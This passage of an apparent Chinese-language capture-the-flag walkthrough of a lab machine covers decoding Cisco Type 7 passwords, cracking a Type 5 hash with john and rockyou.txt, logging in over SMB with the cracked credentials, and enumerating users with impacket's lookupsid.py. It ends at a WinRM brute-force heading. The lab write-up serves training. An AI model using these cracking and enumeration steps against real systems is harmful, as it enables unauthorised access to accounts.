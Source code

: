 这里给出两个在线解密网址
[http://www.ifm.net.nz/cookbooks/passwordcracker.html](http://www.ifm.net.nz/cookbooks/passwordcracker.html)
[https://www.xiaopeiqing.com/cisco-password-cracker/](https://www.xiaopeiqing.com/cisco-password-cracker/)

`Type 7`加密形式直接解密即可

`0242114B0E143F015F5D1E161713`             --->    `$uperP@ssword`
`02375012182C1A1D751618034F36415408`  --->    `Q4)sJu\Y8qz*A3?d`

`Type 5`加密形式这里使用`john`来破解
破解过的密码会存储在home目录下的隐藏文件`.john/john.pot`中

将`$1$pdQG$o8nrSzsGXeaduXrjlvKc91`添加到文本文件。
使用Kali自带的`rockyou.txt`字典（常用的弱口令大全）来破解

`$1$pdQG$o8nrSzsGXeaduXrjlvKc91`          --->    `stealth1agent`
 
如果第一次使用请解压：

`gzip -d /usr/share/wordlists/rockyou.txt.gz`

```
vim hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt 
john --show ./hash.txt 
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203141941.png)

# 0x03 SMB

猜测上面提交`issue`的用户`hazard`存在
尝试使用用户名:`hazard`  密码： `stealth1agent` 连接smb
成功连接，但是没有什么发现

`smbclient --list 10.10.10.149 -U "hazard"`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203144754.png)

# 0x04 枚举用户

然后尝试使用[lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py)脚本来枚举其它用户

```
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/lookupsid.py
python lookupsid.py hazard:stealth1agent@10.10.10.149
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203162833.png)

# 0x05 爆破Winrm
